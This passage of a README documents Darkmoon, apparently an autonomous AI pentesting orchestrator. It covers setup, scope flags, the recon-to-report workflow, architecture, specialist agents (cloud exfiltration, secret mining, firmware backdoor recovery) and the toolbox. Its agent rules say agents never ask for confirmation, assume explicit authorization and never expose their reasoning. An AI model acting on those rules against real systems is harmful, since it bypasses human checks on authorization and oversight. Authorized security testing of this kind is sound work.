| Opus-class MoE — **full precision** (DeepSeek-V3.2, Kimi K2, GLM-4.6, Qwen3-Coder-480B)                 | multi-GPU, ≥ 8× 80 GB (up to 16–32× H100)     | 512 GB – 1 TB+ | H100 / H200 NVLink server                        |
| Opus-class MoE — **4-bit GGUF** (workstation, MoE offload)                                              | 1× 40–48 GB                                   | ~256 GB      | A6000 / RTX 6000 Ada + 256 GB RAM                 |
| Opus-class MoE — **2-bit GGUF** (slow, workstation)                                                     | 1× 24 GB                                      | 128 GB       | RTX 4090 + 128 GB RAM (~few tok/s)                |
| Efficient MoE 30B-A3B (Qwen3-Coder-30B-A3B)                                                             | ~16–24 GB                                     | 32–64 GB     | RTX 4090 / 3090 — fast, single GPU                |
| Dense 32B (Qwen2.5-Coder-32B, Q4)                                                                       | ~22–24 GB                                     | 32–64 GB     | RTX 4090 / 3090, A5000                            |

> VRAM / RAM figures for GLM-4.6 quantization are from Unsloth & apxml; MoE “active parameters” explain why a 30B-A3B model runs far lighter than a 32B dense model.

#### Ideal on-premise workstation (single-GPU)

- **GPU:** NVIDIA RTX 4090 24 GB minimum — RTX 6000 Ada / A6000 48 GB to run Opus-class MoE in 4-bit
- **CPU:** 16+ cores (Ryzen 9 / Threadripper / Core i9)
- **RAM:** 128 GB (256 GB for 4-bit Opus-class MoE offload)
- **Disk:** NVMe SSD, 200 GB+ free (Docker images + quantized weights — a 4-bit 355B model is ~135–200 GB)
- **OS:** Linux x86_64 (native preferred; WSL2 supported)

> [!NOTE]
> **No server-grade GPU?** Use the cloud path with `claude-opus-4-7` — zero local hardware, best results. Local Opus-class models are for fully air-gapped / on-premise constraints; for a single 24 GB GPU, `Qwen3-Coder-30B-A3B` is the most practical starting point.

[Back to Summary](#summary)

## II.4. Automatic generation of OpenCode files

On first launch, Darkmoon :

1. reads the variables,
2. automatically generates :
   - `opencode.json`,
   - `auth.json`,

3. configures the main agent,
4. initializes OpenCode.

All of this is done by the script :

```
conf/apply-settings.sh
```

> [!IMPORTANT]
> You **do not need to generate anything manually**.

You can choose not to fill in the variables, in which case the default opencode model `opencode/big-pickle` will be executed

[Back to Summary](#summary)

## II.5. Volumes and persistence

Configuration files are persisted via Docker volumes.

[Back to Summary](#summary)

### II.5.a Important volumes

```yaml
- ./darkmoon-settings:/root/.config/opencode/:rw
- ./darkmoon-settings:/root/.local/share/opencode/:rw
- ./darkmoon-settings/agents:/root/.opencode/agents/:rw
```

[Back to Summary](#summary)

### II.5.b What this allows

- Modify the configuration **without rebuild**
- Add or modify AI agents
- Keep logs and OpenCode state

## II.6. Build and launch Darkmoon

### II.6.a Building the images


#### Using install.sh

#### 🧹 Clean Install & Stack Reset: `install.sh`

Darkmoon provides a dedicated installation and recovery script:

```bash
./install.sh
```

This script is designed to **fully reset and recreate the Darkmoon Docker stack** in a clean and deterministic way.

It is useful both for **initial setup** and for **recovering from Docker-related issues**.

---

##### What the script does

When executed, `install.sh` performs the following operations:

1. **Checks prerequisites**

   * verifies that **Docker** is installed,
   * verifies that the **Docker daemon is running**,
   * verifies that **Docker Compose v2** is available.

   If any requirement is missing, the script stops and displays installation instructions.

2. **Stops the running stack**

   ```bash
   docker compose down --remove-orphans --volumes --rmi all
   ```

   This stops all containers and removes:

   * containers,
   * networks,
   * volumes,
   * images associated with the compose stack.

3. **Removes local bind mounts**

   The following directories are deleted to ensure a clean environment:

   * `./data`
   * `./darkmoon-settings`
   * `./workflows`

4. **Cleans Docker build cache**

   ```bash
   docker builder prune -f
   ```

   This removes cached build layers that could cause inconsistent builds.

5. **Rebuilds all images from scratch**

   ```bash
   docker compose build --no-cache
   ```

   This guarantees that all images are rebuilt without using previous layers.

6. **Recreates the Darkmoon stack**

   ```bash
   docker compose up -d --force-recreate
   ```

   Containers are recreated and started in detached mode.

---

##### When to use `install.sh`

This script should be used when:

* performing the **initial installation** of Darkmoon,
* Docker builds fail unexpectedly,
* volumes or bind mounts become inconsistent,
* configuration files were modified,
* switching **LLM providers or models**,
* troubleshooting Docker-related issues.

It guarantees that the stack is rebuilt from a **clean state**.

---

##### What it ensures

Running `install.sh` guarantees:

* a **clean Docker environment**
* **fresh image builds**
* **no leftover volumes or caches**
* a fully recreated **Darkmoon stack**

This prevents issues caused by stale caches or corrupted Docker layers.

---

##### When you do NOT need to run it

You typically **do not need to run `install.sh`** when modifying:

* agent Markdown files
* prompts
* workflows mounted through volumes

These changes are usually applied **live without rebuilding the stack**.

#### Using Docker compose

```bash
docker compose build
```

[Back to Summary](#summary)

### II.6.b Launching the stack

```bash
docker compose up -d
```

> [!NOTE]
> The first launch may take some time (image build).

[Back to Summary](#summary)


## II.7. Launch Darkmoon (User CLI)

A wrapper is provided : `darkmoon.sh`.

[Back to Summary](#summary)

### II.7.a Make the wrapper executable

```bash
chmod +x darkmoon.sh
```

[Back to Summary](#summary)

### II.7.b Install globally (optional)

```bash
sudo cp darkmoon.sh /usr/local/bin/darkmoon
```

[Back to Summary](#summary)

### II.7.c Launch Darkmoon with TUI Console

```bash
darkmoon
```

Or with a direct command :

```bash
darkmoon "TARGET: mydomain.com"
```

#### Pentest Agent — Scope definition

##### Quick Pentest (zero config)

```
TARGET: http://172.19.0.3:3000
```

That's it. Blackbox, all planes, no config needed.

##### Bug Bounty (flags activate it)

```
TARGET: http://172.19.0.3:3000 PROGRAM="Juice Shop" FOCUS=sqli,xss,idor,auth-bypass EXCLUDE=dom-xss,self-xss,clickjacking CREDS=user:user@juice-sh.op:user123,admin:admin@juice-sh.op:admin123 NOISE=moderate FORMAT=h1
```

Any flag after the URL switches to Bug Bounty mode automatically.

##### Flags Reference

| Flag | Description | Example |
|------|-------------|---------|
| `PROGRAM="name"` | Program name (report header) | `PROGRAM="Acme BB 2026"` |
| `TARGETS=a,b,...` | Additional in-scope assets | `TARGETS=*.acme.com,API:https://api.acme.com` |
| `OUT=a,b,...` | Out-of-scope (never touched) | `OUT=payments.acme.com,10.0.0.0/8` |
| `EXCLUDE=a,b,...` | Attacks to skip (free-text, LLM interprets) | `EXCLUDE=dom-xss,clickjacking,CWE-352` |
| `FOCUS=a,b,...` | Attacks to prioritize (free-text, LLM interprets) | `FOCUS=sqli,rce,ssrf,idor` |
| `CREDS=r:u:p,...` | Test credentials (role:user:pass[@url]) | `CREDS=admin:admin@test.com:Pass1@http://t/login` |
| `TOKEN=t:v,...` | Pre-auth tokens (bearer, cookie, apikey) | `TOKEN=bearer:eyJhbG...@api.acme.com` |
| `NOISE=level` | Discovery aggressiveness | `stealth` / `low` / `moderate` |
| `SEVERITY=level` | Global max severity cap | `critical` / `high` / `medium` / `low` |
| `FORMAT=type` | Report output format | `standard` / `h1` / `bugcrowd` / `custom` |
| `RULES="r1;r2"` | Engagement rules (semicolon-separated) | `RULES="POC only;no real data"` |
| `SAFE_HARBOR=yn` | Safe harbor applies | `yes` / `no` |

##### EXCLUDE / FOCUS — Free-Form

Write whatever you want, the LLM understands it. No enum, no fixed list.

```
EXCLUDE=dom-xss,self-xss,clickjacking
EXCLUDE=H1
EXCLUDE=brute-force,rate-limiting,CWE-352
EXCLUDE=csrf on logout,info disclosure
```

```
FOCUS=sqli,rce,ssrf,idor
FOCUS=auth-bypass,jwt,deserialization
```

Only shortcut: `H1` = HackerOne Core Ineligible Findings.

##### Asset Types (optional prefix in TARGETS)

`DOMAIN`, `URL`, `API`, `CIDR`, `IP`, `IOS`, `ANDROID`, `SOURCE`, `EXEC`, `HW`

Prefix is optional — auto-detected if omitted.
Wildcards supported: `*.example.com`

##### Examples

**Minimal bounty:**
```
TARGET: http://172.19.0.3:3000 PROGRAM="Juice Shop" FOCUS=sqli,xss,idor
```

**Exclude specific attacks:**
```
TARGET: http://172.19.0.3:3000 FOCUS=sqli,rce,ssrf EXCLUDE=dom-xss,self-xss,clickjacking,open-redirect NOISE=moderate FORMAT=h1
```

**Multi-target with out-of-scope:**
```
TARGET: https://app.acme.com PROGRAM="Acme" TARGETS=*.acme.com,API:https://api.acme.com/v2 OUT=payments.acme.com,10.0.0.0/8 FOCUS=sqli,rce,ssrf EXCLUDE=H1 FORMAT=h1
```

**Full scope:**
```
TARGET: https://app.acme.com PROGRAM="Acme BB 2026" TARGETS=*.acme.com,API:https://api.acme.com/v2 OUT=payments.acme.com,10.0.0.0/8 FOCUS=sqli,rce,ssrf,idor,auth-bypass EXCLUDE=H1,dom-xss CREDS=user:h@test.com:Bug1!,admin:a@test.com:Adm1! NOISE=moderate FORMAT=h1 SEVERITY=critical SAFE_HARBOR=yes RULES="POC only;no real user data;24/7 window"
```

### II.7.d How to Use the Darkmoon Assessment Engine

#### Overview

Darkmoon operates as a **strategic vulnerability assessment orchestrator** rather than a traditional scanner.

Instead of executing a fixed sequence of tools, the system behaves like an **audit conductor** that:

1. Discovers the target environment
2. Models the attack surface
3. Classifies technology domains
4. Dispatches specialized assessment agents
5. Continuously adapts based on discovered signals
6. Produces a structured security report

This approach mirrors professional methodologies such as:

* ISO 27001
* NIST SP 800-115
* MITRE ATT&CK modeling
* Industrial audit practices

The orchestrator coordinates specialized sub-agents such as:

* PHP
* NodeJS
* Flask / Python
* ASP.NET
* GraphQL
* Go
* Kubernetes
* Active Directory
* Ruby on Rails
* Spring Boot
* Headless Browser
* CMS engines (WordPress, Drupal, Joomla, Magento, PrestaShop, Moodle)

It also coordinates a set of **credential-gated** sub-agents for the cloud,
identity, CI/CD, IaC, secrets, data and infrastructure planes. These are dispatched
only on a **positive artifact** (a leaked credential, an exposed API/port, or scope
the operator supplied) — never on inference — the same manual-only discipline the
Active Directory and Kubernetes agents follow:

* Public cloud — `aws`, `azure`, `gcp`
* Microsoft identity — `entra-id`
* Source control & CI/CD — `github`, `gitlab`, `jenkins`
* Infrastructure as Code — `terraform`, `ansible`
* Containers & registries — `docker`, `container-registry`
* Secrets management — `hashicorp-vault`
* Databases & messaging/cache — `sql-databases`, `messaging-cache`

Each agent focuses on **a specific technology stack**.

---

### Step-by-Step Workflow

The Darkmoon assessment process follows a structured lifecycle.

### II.7.e Step 1 — Start an Assessment

The user begins by providing a **target host, domain, or IP address**.

Example:

```
TARGET: 172.20.0.4
```


This launches the assessment campaign.

The orchestrator immediately initializes a **session context**.

From the session logs we can see this initialization stage: 

```
darkmoon_get_session
→ session_id returned
```

The user receives a **monitoring command** to observe the assessment in real time:

```
./darkmoon.sh --log <session_id>
```


This allows the user to track the progress of the audit while it runs.


---

### II.7.f Step 2 — Environmental Discovery

Once the session begins, the system performs **controlled reconnaissance**.

The goal is not exploitation but **environment understanding**.

Activities include:

* Port scanning
* Protocol detection
* HTTP service discovery
* Banner analysis
* Basic service fingerprinting

Example from the session log: 

```
workflow: port_scan
target: 172.20.0.4
ports discovered: 80
```

At this stage the system answers questions such as:

* Which ports are exposed?
* Which protocols are running?
* Is the target a web application, network service, or identity service?

This phase builds the **initial attack surface model**.


---

### II.7.g Step 3 — Technology Fingerprinting

Once exposed services are identified, Darkmoon determines the **technology stack**.

Typical signals collected include:

* HTTP headers
* Server banners
* Framework fingerprints
* CMS signatures
* API endpoints
* JavaScript frameworks

Example signals observed in the session: 

```
Server: Apache/2.4.38
X-Powered-By: PHP/7.1.33
WordPress detected
plugins detected
```

At this stage the orchestrator builds a **technology profile** such as:

```
Web Application
 ├── Apache
 ├── PHP
 └── WordPress CMS
```

This classification is critical because it determines **which specialized agents must be executed**.


---

### II.7.h Step 4 — Attack Surface Modeling

The system then constructs an internal representation of the target environment.

The model includes:

* exposed endpoints
* authentication surfaces
* APIs
* frameworks
* infrastructure components

Example elements discovered in the session: 

```
/wp-json/  → REST API
/xmlrpc.php → remote publishing interface
/wp-login.php → authentication endpoint
```

This information defines the **attack surface map** used by the orchestrator.

---

### II.7.i Step 5 — Sub-Agent Selection

Once the environment is understood, the orchestrator dynamically selects **specialized agents**.

The selection is based on detected technology signals.

Examples:

| Signal detected    | Agent triggered |
| ------------------ | --------------- |
| WordPress          | wordpress       |
| GraphQL endpoint   | graphql         |
| NodeJS / Express   | nodejs          |
| Flask / Django     | flask           |
| ASP.NET            | aspnet          |
| Java Spring        | springboot      |
| Ruby               | ruby            |
| Active Directory   | ad              |
| Kubernetes cluster | kubernetes      |

Multiple agents may run **in parallel** if several technologies are detected.

This prevents the tool from missing vulnerabilities across **hybrid architectures**.

---

### II.7.j Step 6 — Reactive Multi-Agent Execution

The orchestrator uses a **reactive feedback loop**.

After each agent finishes:

1. The results are analyzed.
2. Newly discovered technologies are evaluated.
3. Additional agents may be dispatched.

Example logic:

```
Initial scan
   ↓
WordPress detected
   ↓
WordPress agent executed
   ↓
Plugin exposes GraphQL API
   ↓
GraphQL agent triggered
```

This allows the system to **adapt dynamically** to the architecture discovered during the audit.


---

### II.7.k Step 7 — Evidence-Based Findings

The system follows strict validation rules.

A vulnerability is reported only when **evidence exists**, such as:

* HTTP request used
* payload sent
* raw response received
* extracted data or proof of execution

If proof is incomplete, the finding is labeled:

```
UNCONFIRMED SIGNAL
```

This ensures the report remains **audit-grade** and defensible.


---

### II.7.l Step 8 — Campaign Completion

The assessment ends when:

* no new technology signals appear
* all relevant agents have executed
* attack surface coverage is sufficient

The orchestrator then triggers the **reporting phase**.

The final report summarizes:

* discovered technologies
* attack surfaces
* validated vulnerabilities
* supporting evidence
* risk classification

---

### II.7.m High-Level Workflow Diagram

```
                +--------------------+
                |   User provides    |
                |   target address   |
                +----------+---------+
                           |
                           v
               +----------------------+
               | Session Initialization|
               | darkmoon_get_session |
               +----------+-----------+
                          |
                          v
               +----------------------+
               | Environmental        |
               | Discovery            |
               | (ports, services)    |
               +----------+-----------+
                          |
                          v
               +----------------------+
               | Technology           |
               | Fingerprinting       |
               +----------+-----------+
                          |
                          v
               +----------------------+
               | Attack Surface       |
               | Modeling             |
               +----------+-----------+
                          |
                          v
               +----------------------+
               | Sub-Agent Selection  |
               +----------+-----------+
                          |
                          v
              +-----------------------+
              | Multi-Agent Execution |
              | Reactive Loop         |
              +----------+------------+
                         |
                         v
              +-----------------------+
              | Evidence Validation   |
              +----------+------------+
                         |
                         v
              +-----------------------+
              | Final Security Report |
              +-----------------------+
```

### II.7.n What the User Needs to Do

From the user's perspective the workflow is extremely simple.

#### 1️⃣ Provide a target

```
TARGET: <ip or domain>
```

#### 2️⃣ Monitor the session

```
./darkmoon.sh --log <session_id>
```

#### 3️⃣ Wait for the assessment to complete

The orchestrator automatically:

* discovers technologies
* dispatches agents
* collects evidence
* generates the report

No manual tool selection is required.

---

### II.7.o Key Advantages of the Workflow

Compared to traditional scanners, Darkmoon:

✔ models the system before testing
✔ adapts to discovered technologies
✔ coordinates multiple specialized engines
✔ avoids noisy scanning
✔ produces evidence-driven findings

This makes it suitable for **industrial-grade security assessments**.

## II.8. Direct access to the container (debug)

It is possible to enter the OpenCode container directly :

```bash
docker exec -ti opencode bash
```

This allows :

- to inspect files,
- to modify agents,
- to test OpenCode directly.

[Back to Summary](#summary)

## II.9. Where to modify what (summary)

| Action                    | Where                             |
| ------------------------- | --------------------------------- |
| Change the LLM model      | `.env`                            |
| Modify `opencode.json`    | `darkmoon-settings/opencode.json` |
| Modify `auth.json`        | `darkmoon-settings/auth.json`     |
| Add an agent              | `darkmoon-settings/agents/`       |
| Add an agent before build | `conf/agents/`                    |

[Back to Summary](#summary)

## II.10. Quick summary

- `.env` → AI configuration
- `docker compose up -d` → launch
- `darkmoon` → usage
- Volumes → persistence & live modification

[Back to Summary](#summary)

## II.11. Clipboard & Terminal (OSC 52)

Darkmoon's interactive console (the **TUI**) runs **inside a container**, so it cannot reach your host clipboard directly. Every copy action — text selection, and **Ctrl+P → "Copy session transcript"** / **"Copy last assistant message"** — sends the data to your machine through the **OSC 52** terminal escape sequence. Your **terminal emulator must support (and allow) OSC 52 clipboard writes**, otherwise the copy silently goes nowhere.

> ⚠️ The **"Copied to clipboard"** message is shown as soon as the sequence is emitted — it does **not** guarantee your terminal accepted it. If pasting yields nothing, the cause is almost always terminal-side, not Darkmoon.

### Symptom

- "Copied to clipboard" appears, but `Ctrl+V` (or `Ctrl+Shift+V`) pastes nothing — neither inside the TUI nor in any other application.
- Most common on **GNOME Terminal / VTE** (the Ubuntu default), which does not honor OSC 52 clipboard writes by default.

### Confirm it is your terminal

Run this **outside** Darkmoon, then try to paste somewhere:

```bash
printf '\033]52;c;%s\007' "$(printf 'osc52-test' | base64)"
```

If pasting does **not** give you `osc52-test`, your terminal is dropping OSC 52.

### Fixes

| Situation | Fix |
|-----------|-----|
| Terminal without OSC 52 (GNOME Terminal, older Konsole/PuTTY) | Use an OSC 52‑capable terminal: **kitty**, **WezTerm**, **Alacritty**, **foot**, **xterm** (`allowWindowOps` / `52` not blocked), **Windows Terminal**, or **iTerm2** (enable *Allow clipboard access*) |
| Inside **tmux / screen** | tmux: add `set -g set-clipboard on` (Darkmoon already wraps the sequence for tmux passthrough). screen: enable clipboard or use a compatible terminal |
| Over **SSH** | Works as long as the **local** terminal supports OSC 52 — nothing to install on the server |
| Very large **session transcript** | OSC 52 has per‑terminal size limits and may be truncated even on a supported terminal. For full output, use the report files in **`./reports`** |

> 💡 Darkmoon cannot work around this from inside the container: for a containerized TUI, OSC 52 is the only portable bridge to the host clipboard. Clipboard behaviour therefore depends entirely on your terminal configuration.

[Back to Summary](#summary)

# III. Uses

## III.1. Prompt Examples

Here's a list of example prompts you can use with Darkmoon:

### DVGA (Damn Vulnerable GraphQL Application)

```
TARGET:  http://localhost:5013
```

### Juice Shop (with browser / headless)

```
TARGET:  http://localhost:3000
```

### Juice Shop (API only / headless-free)

```
TARGET:  http://localhost:3000
```

[Back to Summary](#summary)

# IV. Architecture

This document explains how Darkmoon is built, who is responsible for what, and why the architecture is robust. It avoids unnecessary low-level details while remaining technically clear.

**Target audience:** security professionals, developers, DevSecOps engineers, technical reviewers, and advanced contributors.

[Back to Summary](#summary)

## IV.1. Core Idea

Darkmoon is built around a strict and deliberate principle:

> [!NOTE]
> The AI never interacts directly with pentesting tools.

The AI is responsible for reasoning, planning, and decision-making, but it does not execute anything itself. Every concrete action goes through a controlled intermediary layer. This design significantly increases security, improves operational control, and prevents unpredictable behavior from the AI.

[Back to Summary](#summary)

## IV.2. Main Components (Who Does What)

### IV.2.a. OpenCode — The Brain

OpenCode acts as the central orchestrator of the system. It communicates with the LLM, manages AI agents, determines the next actions to perform, and calls the MCP whenever a real-world action is required. Importantly, OpenCode never executes any pentesting tool directly. It strictly remains at the orchestration and reasoning level.

[Back to Summary](#summary)

### IV.2.b. AI Agents — The Strategy Layer

AI agents are defined in Markdown files. Their purpose is to describe the pentesting methodology and enforce structured execution phases such as reconnaissance, scanning, exploitation, validation, and reporting.

Because they are written in Markdown, agents are readable, auditable, and version-controlled through Git. They can be modified without rebuilding the entire project. This design ensures transparency and flexibility while maintaining strict behavioral constraints such as autonomy and non-interactivity.

[Back to Summary](#summary)

### IV.2.c. MCP Darkmoon — The Security Gatekeeper

The MCP is the central security boundary of Darkmoon. It exposes only explicitly authorized functions to the AI and executes actions on its behalf. All inputs and outputs are strictly controlled and structured.

This means the AI can only perform operations that the MCP explicitly allows. The MCP effectively acts as an internal controlled API layer, ensuring that the AI never gains direct access to the system or execution environment.

[Back to Summary](#summary)

### IV.2.d. Darkmoon Toolbox — The Real Tools

The Toolbox contains the actual pentesting tools and runs inside a dedicated Docker container. Its purpose is to guarantee isolation, reproducibility, and environmental consistency.

Tools are compiled once and executed within a minimal runtime environment. This reduces dependencies, minimizes the attack surface, and ensures stable behavior across deployments.

[Back to Summary](#summary)

### IV.2.e. Docker & Volumes — Isolation and Persistence

Docker is used to isolate system components from each other and from the host system. This reduces risk exposure and enforces strict runtime boundaries. Volumes allow configuration and data to persist while still enabling dynamic modifications without requiring full redeployment.

[Back to Summary](#summary)

## IV.3. Execution Flow (Simple Overview)

When a user submits a prompt, OpenCode analyzes the request and delegates the mission to an AI agent. The agent determines the appropriate strategy and, when an action is needed, calls a function exposed by the MCP. The MCP then executes the corresponding tool inside the Docker-based Toolbox. Results are returned to the MCP, passed back to the agent in structured form, and used to determine the next step or produce a final report. The entire flow remains controlled and traceable.

[Back to Summary](#summary)

### IV.3.a Deployment diagram

This diagram illustrates the overall architecture and data flow of the system. The User interacts with the platform through a command-line interface or prompt sent to DarkmoonCLI. This interface forwards the request to OpenCode, which acts as the orchestration layer responsible for managing AI-driven tasks.

OpenCode communicates with MCP (Model Context Protocol) to access external capabilities.

MCP then interacts with the Toolbox, a collection of tools executed through the Docker API, allowing isolated and reproducible execution environments. This layered architecture separates the user interface, AI orchestration, tool abstraction, and actual execution of security tools.



[Back to Summary](#summary)

### IV.3.b Network flow diagram

This sequence diagram describes the step-by-step interaction between the user, the AI system, and the execution environment. The process begins when the User submits a prompt to OpenCode. OpenCode delegates the task to an AI Agent, which determines the appropriate actions to perform. The agent calls a function exposed through MCP Darkmoon, which serves as a standardized interface to external tools.

MCP then triggers the execution of a real tool inside the Docker Toolbox. Once the tool finishes its execution, the results are returned to MCP, which formats them into a structured output.

The AI agent analyzes these results to decide the next action or produce a conclusion. Finally, OpenCode delivers a summarized result back to the user.



[Back to Summary](#summary)

### IV.3.c Activity diagram — End-to-end penetration testing

This diagram represents the logical workflow followed by the AI agent during an automated security testing process. The workflow starts when a user prompt triggers the AI Agent, which initiates a reconnaissance phase to gather information about the target system. The process then moves to automated scanning, where vulnerabilities are searched using automated tools.

If potential weaknesses are discovered, the agent attempts targeted exploitation to verify their existence. The impact validation phase confirms whether the exploitation leads to a meaningful security impact. If further exploration is required, the workflow loops back to the scanning phase for deeper analysis.

Once sufficient findings are collected, the system performs correlation and reporting, producing a structured report before reaching the final step of the process.



[Back to Summary](#summary)

## IV.4. Security by Design

Darkmoon enforces clear boundaries:

| From    | To      | Role             |
| ------- | ------- | ---------------- |
| Agent   | MCP     | Action control   |
| MCP     | Toolbox | Secure execution |
| Toolbox | Host    | Docker isolation |

The AI does:

- Never executes system commands
- Never controls Docker
- Never leaves its designated scope

[Back to Summary](#summary)

## IV.5. Why This Architecture Is Robust

The architecture is robust because responsibilities are clearly separated and there is no hidden or implicit logic. Each layer has a single, well-defined role and communicates through explicit interfaces. Components can be replaced independently without breaking the overall system. The platform is not locked to any specific AI provider and is suitable for sensitive or controlled environments where predictability and auditability are essential.

> [!NOTE]
> For a deeper understanding of how agents operate, see [AI Agents](#v-ai-agents).

[Back to Summary](#summary)

# V. AI Agents

This document describes **how AI agents work in Darkmoon**:

- their role,
- their structure,
- their rules,
- and how to create or modify them.

Target audience:

- advanced pentesters
- agent creators
- security researchers
- contributors

[Back to Summary](#summary)

## V.1. What is a Darkmoon Agent?

A Darkmoon agent is:

- a **Markdown file**,
- loaded by OpenCode,
- that defines **autonomous behavior**,
- and controls the MCP to perform real actions.

> [!IMPORTANT]
> It is **not** a standard prompt. It is a **complete operational strategy**.

[Back to Summary](#summary)

## V.2. Agent Philosophy

Darkmoon agents are designed to:

- act **without asking questions**,
- assume explicit authorization,
- automatically chain actions,
- favor depth over speed,
- correlate results.

An agent **does not ask**:

- “Do you want to continue?”
- “What is the scope?”

> [!NOTE]
> The scope is **already defined by the user**.

[Back to Summary](#summary)

## V.3. Structure of a Darkmoon Agent

An agent is a structured Markdown file.

[Back to Summary](#summary)

### V.3.a Simplified Example

```markdown
<!-- Filename: pentest-web.md (the filename is the agent identifier) -->
---
description: Fully autonomous pentest agent
mode: subagent
permission:
  '*': deny
  darkmoon_*: allow
---

You are an autonomous AI cybersecurity agent.
```

[Back to Summary](#summary)

### V.3.b List of Agents

Darkmoon now ships a **`pentest` orchestrator** plus **49 specialist sub-agents**. The orchestrator fingerprints the target, then dispatches the matching specialist(s) and chains their findings. Web/CMS agents auto-dispatch on stack detection; cloud / IaC / identity / CI-CD / data / firmware agents are **credential- or artifact-gated** (dispatched only on a positive artifact — a leaked key, an exposed API/port, a firmware image — never on inference).

**Orchestrator**
- `pentest` — signal-detection FSM: recon, stack fingerprinting, dispatch, cascade, and server-side reporting. Also covers the network plane (FTP/SSH/SMTP/SNMP/TELNET…).

**Web application & framework agents** (auto-dispatch on stack signal)
- `nodejs`, `nest`, `python-flask`, `php`, `aspnet`, `ruby-on-rails`, `springboot`, **`golang`** (Gin/Echo/Fiber/Beego/net-http), `graphql`
- CMS/e-commerce: `wordpress`, `drupal`, `joomla`, `magento`, `prestashop`, `moodle`
- `headless-browser` — JS-rendered / SPA crawling and DOM-sink analysis

**Infrastructure & identity**
- `active-directory` — Windows/ADDS/SMB; `kubernetes` — cluster attack surface

**Cloud & identity plane** (credential/artifact-gated)
- `aws`, `azure`, `gcp` — resource-plane privesc, metadata/IMDS, storage exfiltration
- `entra-id` — Microsoft Entra ID (Azure AD) identity: roles, apps, service principals, ROPC

**Infrastructure-as-Code & CI/CD** (credential/artifact-gated)
- `terraform` (state secret mining), `ansible` (inventory/vault)
- `github`, `gitlab`, `jenkins` — supply-chain, secrets, runners, OIDC-to-cloud

**Containers, data & secrets** (credential/artifact-gated)
- `docker` (exposed daemon/socket), `container-registry` (OCI v2)
- `sql-databases` (PostgreSQL/MySQL/MSSQL/Oracle), `messaging-cache` (Redis/RabbitMQ/Kafka/MQTT/…), `hashicorp-vault`

**Firmware & IoT** (artifact-gated)
- **`firmware`** — embedded/IoT firmware and devices: image extraction (binwalk/squashfs), hardcoded-credential & backdoor recovery, embedded web (LuCI/CGI) command-injection, insecure services, outdated-component CVEs. Two modes: **IMAGE** (a firmware file) and **DEVICE** (a live IoT appliance).
[Back to Summary](#summary)

### V.3.c Common Sections

- metadata (`id`, `name`, `description`)
- execution rules
- capabilities
- communication rules
- MCP call rules
- security constraints

[Back to Summary](#summary)

## V.4. Real Example: pentest-web

The `pentest-web` agent is:

- fully autonomous,
- focused on real pentesting,
- aggressive but non-destructive,
- based **exclusively on MCP**.

It:

- chooses its own workflows,
- can directly execute tools via MCP,
- correlates results between steps,
- iterates until attack vectors are exhausted.

> [!IMPORTANT]
> It is an **AI pentester**, not an assistant.

[Back to Summary](#summary)

## V.5. Critical Rules for Agents

### V.5.a Autonomy

An agent:

- never asks for confirmation,
- never asks for user input,
- acts immediately.

[Back to Summary](#summary)

### V.5.b MCP-only

An agent:

- **never touches Docker**,
- **never launches tools directly**,
- always goes through MCP.

This ensures:

- auditability,
- control,
- security.

[Back to Summary](#summary)

### V.5.c Communication

Agents:

- minimize user messages,
- prioritize tool calls,
- never expose internal reasoning.

[Back to Summary](#summary)

## V.6. Where Agents Live

### V.6.a Before Build

```
conf/agents/
```

These agents are:

- integrated into the image,
- automatically copied at first launch.

[Back to Summary](#summary)

### V.6.b After Build (Recommended)

```
darkmoon-settings/agents/
```

Advantages:

- modify without rebuild,
- persistence,
- external versioning.

[Back to Summary](#summary)

## V.7. Agent Lifecycle

1. OpenCode starts
2. Checks if agents already exist
3. Initial seed if needed
4. Dynamic loading
5. On-demand execution

> [!NOTE]
> The seed only happens **once**.

[Back to Summary](#summary)

## V.8. Adding a New Agent

### V.8.a. Method 1 — After Build (Recommended)

1. Create a `.md` file in:

```
darkmoon-settings/agents/
```

2. Restart Darkmoon
3. The agent is immediately available

[Back to Summary](#summary)

### V.8.b. Method 2 — Before Build

1. Add the agent in:

```
conf/agents/
```

2. Rebuild the stack
3. The agent will be automatically seeded

[Back to Summary](#summary)

## V.9. Best Practices

- One agent = one clear role
- Do not mix scanning, reporting, and remediation
- Prefer multiple specialized agents
- Keep rules strict
- Test progressively

[Back to Summary](#summary)

## V.10. Summary

Darkmoon agents:

- are autonomous,
- auditable,
- extensible,
- and secure by design.

They form **the strategic brain** of the platform.

> [!NOTE]
> To understand how agents execute actions, see [MCP Workflows](#vii-mcp-workflows)

[Back to Summary](#summary)

# VI. Toolbox

## VI.1. What is this project for?

This project is used to:

- Build a **cybersecurity toolbox**.
- Put many tools into **a single Docker image**.
- Have an image that is:
  - reliable,
  - reproducible,
  - easy to maintain,
  - easy to extend.

This image is intended for:

- **pentesters**,
- **security engineers**,
- **researchers**,
- the **Open Source community**.

[Back to Summary](#summary)

## VI.2. General principle (simple idea)

This project uses **Docker** with **two stages**:

[Back to Summary](#summary)

### VI.2.a Step 1: Builder

- We **compile**.
- We **install**.
- We **prepare** all the tools.
- Nothing is intended for the final user yet.

[Back to Summary](#summary)

### VI.2.b Step 2: Runtime

- We **copy only the useful result**.
- We remove everything that is not necessary.
- The final image is **smaller** and **cleaner**.

> [!IMPORTANT]
> This separation is intentional. It avoids errors and reduces risks.

[Back to Summary](#summary)

## VI.3. Why this architecture is smart

### VI.3.a Clear separation of roles

Each file has **a single role**:

- `Dockerfile`
  - Manages the system.
  - Installs the languages.
  - Copies the results.

- `setup.sh`
  - Installs **binary tools** (Go, GitHub releases, C compilation).

- `setup_ruby.sh`
  - Installs **Ruby tools**.

- `setup_py.sh`
  - Installs **Python tools**.
  - Creates simple commands (`netexec`, `sqlmap`, etc.).

> [!NOTE]
> This avoids “magic scripts”. Everything is readable and verifiable.

[Back to Summary](#summary)

### VI.3.b Standardized output

All compiled tools are placed **in the same location**:

```
/out/bin
```

Then they are exposed in:

```
/usr/local/bin
```

> [!IMPORTANT]
> **If a tool is in `/out/bin`, it will be usable**.

[Back to Summary](#summary)

### VI.3.c Important optimizations

- Removal of APT caches.
- Removal of `apt` and `dpkg` in runtime.
- No compiler in the final image.
- Languages compiled only once.

👉 Result:

- smaller image,
- reduced attack surface,
- stable behavior.

[Back to Summary](#summary)

## VI.4. What does the image contain?

### VI.4.a Base system

- OS: Debian Bookworm (slim version)
- Essential system tools:
  - `bash`
  - `curl`
  - `jq`
  - `dnsutils`
  - `openssh-client`
  - `hydra`
  - `snmp`

[Back to Summary](#summary)

### VI.4.b Included languages

- **Go**: used to compile many network and security tools
- **Python**: (compiled version) installed in `/opt/darkmoon/python`
